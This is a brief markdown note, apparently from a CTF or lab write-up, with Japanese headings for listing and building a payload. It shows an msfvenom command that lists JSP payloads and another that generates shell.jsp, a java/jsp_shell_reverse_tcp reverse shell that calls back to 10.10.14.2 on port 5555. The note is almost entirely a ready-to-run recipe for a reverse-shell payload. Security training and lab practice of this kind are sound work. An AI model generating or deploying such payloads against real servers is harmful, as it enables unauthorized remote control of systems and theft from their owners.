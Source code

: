 ### list検索
```bash
 msfvenom --list payload | grep jsp
```
![image](https://github.com/user-attachments/assets/3f75d8ee-69d7-4a0c-bd7c-9291757d6a93)

---

### payload作成
```bash
msfvenom --payload java/jsp_shell_reverse_tcp --format raw --out shell.jsp LHOST=10.10.14.2 LPORT=5555
```
